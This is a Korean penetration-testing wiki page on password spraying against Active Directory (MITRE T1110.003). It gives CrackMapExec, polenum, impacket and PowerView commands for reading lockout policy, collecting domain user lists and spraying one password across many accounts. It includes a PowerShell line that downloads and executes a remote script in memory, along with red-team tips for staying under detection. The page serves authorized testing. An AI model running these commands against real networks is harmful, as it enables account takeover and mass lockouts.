 ```yaml
---
description: MITRE ATTACK - T1110.003
---
```


# 비밀번호 스프레이 공격

비밀번호 스프레이 공격은 다수의 유저 계정을 상대로 하나의 비밀번호를 대입해 공격하는 방식이다.&#x20;

내부망에 진입 후 도메인 유저 계정을 장악했다면 블러드하운드나 내부망 정보 수집을 통해 도메인 유저 명단을 획득할 수 있다. 이 명단을 상대로 비밀번호 스프레이 공격을 시도해볼 수 있다.&#x20;

모의해커나 레드팀의 경우 다음과 같은 주의사항을 꼭 명심해야한다.&#x20;

**모의해커**&#x20;

* 액티브 디렉토리 비밀번호 정책 확인&#x20;
* 대량의 유저를 상대로 할 경우 고객사 연락책 및 블루팀에게 사전 고지&#x20;
* 일괄적으로 스프레이를 하기 보단 특정 숫자로 나눠 공격&#x20;

**레드팀**&#x20;

* 액티브 디렉토리 비밀번호 정책 확인&#x20;
* 스프레이 속도 조절. 속도 조절 실패시 블루팀에게 발각될 확률이 매우 높아짐
* 하나의 호스트에서 스프레이를 진행하기 보단 여러대 호스트에서 긴 시간 동안 느린 속도로 천천히 스프레이 공격을 실행&#x20;

모의해커나 레드팀이나 중요한 것은 바로 "액티브 디렉토리 비밀번호 정책 확인"이다. 고객사 3만명의 직원들의 액티브 디렉토리 유저 계정을 모두 잠금한 뒤 화요일 새벽 고객사 연락책에게서 살벌한 전화를 받기 싫다면 말이다.&#x20;

### AD 비밀번호 정책 확인&#x20;

액티브 디렉토리 비밀번호 정책을 확인하려면 도메인 유저 권한을 갖고 있어야한다. 도메인 컨트롤러를 대상으로 비밀번호 정책을 알아낸다. 계정 잠금 임계점, 임계점 리셋 시간, 계정 잠금 시간 등에 특히 유의한다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
```
# Crackmapexec 
cme smb <ip/FQDN> -u <user> -p <pass> -d <domain> --pass-pol Pdd

# polenum
polenum '<user>:<pass>'@<ip> --domain choi.local
```
{% endtab %}

{% tab title="윈도우" %}
Powerview 혹은 SharpView 등의 툴을 이용하거나 호스트에 기본 AD 파워쉘 모듈이 있다면 그것을 이용한다.&#x20;

```
# Powerview 
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')
(Get-DomainPolicy).SystemAccess

# 기본 AD 파워쉘 모듈 
Get-ADDefaultDomainPasswordPolicy
```
{% endtab %}
{% endtabs %}

### 유저 명단 확보&#x20;

유저 명단은 어떠한 툴을 이용하던 LDAP을 통해 알아낼 수 있다. 자주 쓰이는 툴들은 블러드하운드, Powerview 등이 있다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
```
# 블러드하운드 데이터를 이용
jq -r '.data[].Properties.name' 20220614000557_users.json

# impacket GetADUsers
impacket-GetADUsers <domain>/'<user>:<pass>' -all -dc-ip <ip>
impacket-GetADUsers choi.local/'low:Password123!' -all -dc-ip 192.168.40.150
impacket-GetADUsers choi.local/'low:Password123!' -all -dc-ip 192.168.40.150 | grep -i 2022 | cut -d ' ' -f 1 | sort -fuV  > users.txt
```


{% endtab %}

{% tab title="윈도우" %}
```
# Powerview 
(Get-DomainUser).name
```
{% endtab %}
{% endtabs %}

### 스프레이 공격&#x20;

도메인 비밀번호 정책, 계정 잠금 임계점, 계정 잠금 시간등을 확인한 뒤 스프레이 공격을 실행한다. 예를 들어 임계점이 5번이고 임계점 리셋 시간이 2시간이라면 2시간 마다 1\~2개의 비밀번호를 스프레이한다. 그 이유는 실제로 직원들이 자신의 계정을 이용하다 비밀번호를 잘못 입력할수도 있고, 다른 변수들도 존재하기 때문이다.&#x20;

도메인 비밀번호 정책을 모르며 10,000명 이상의 큰 네트워크를 상대로 스프레이 공격을 진행한다면 8시간 마다 1개의 비밀번호를 시도하는 것을 추천한다. 다만, 실행하기 전 고객사에게 연락해 사전 허락을 맡는다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
```
# CrackMapExec
cme smb <ip/FQDN> -u <유저-파일> -p <pass> -d <domain> --no-bruteforce --continue-on-success
cme smb 192.168.40.150 -u users.txt -p 'Password123!' -d <domain> --no-bruteforce --continue-on-success
```


{% endtab %}

{% tab title="윈도우" %}

{% endtab %}
{% endtabs %}



### 레퍼런스&#x20;

{% embed url="https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing" %}

{% embed url="https://www.eshlomo.us/active-directory-password-spray-attack/" %}
